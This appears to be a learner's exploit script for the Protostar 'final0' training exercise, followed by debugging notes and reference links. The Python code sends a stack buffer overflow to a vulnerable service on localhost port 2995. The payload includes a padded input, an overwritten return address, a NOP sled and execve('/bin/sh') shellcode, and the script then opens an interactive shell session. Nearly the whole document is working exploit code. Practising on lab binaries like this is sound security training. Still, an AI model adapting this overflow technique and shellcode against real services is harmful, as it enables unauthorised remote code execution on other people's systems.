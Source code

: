 import socket
import struct
import time
import telnetlib

HOST="127.0.0.1"
PORT=2995

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

eip = struct.pack("I", 0xbffffc60+10)
nopsled = "\x90" * 100
exploit     = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
payload = "A" * 512 + "\x00"  + "bbbccccddddeeeeffff" + eip + nopsled + "gggghhhhh" + exploit
s.send(payload + "\n") # "\n" indicates that transmission is over if not server is still waiting for more stuff, because you are using gets() to read input
#s.send("id")
#data = s.recv(2048) # end every payload you send with "\n" if not you will not receive anything and the function will be stuck here as it is waiting for the server to respond while the server is waiting for the end of the transmission most likely indicated by "\n"
#print "Received: ", data

t = telnetlib.Telnet()
t.sock = s
t.interact()

debug using `gdb /opt/protostar/bin/final0 /tmp/CORE_DUMP_FILE`

https://wiki.archlinux.org/title/Core_dump

https://exploit.education/protostar/

https://www.ibm.com/docs/en/zos/2.2.0?topic=functions-gets-read-string 

https://www.educative.io/answers/how-to-use-the-fgets-function-in-c

https://man7.org/linux/man-pages/man2/read.2.html

https://www.ibm.com/docs/en/i/7.4?topic=functions-fread-read-items


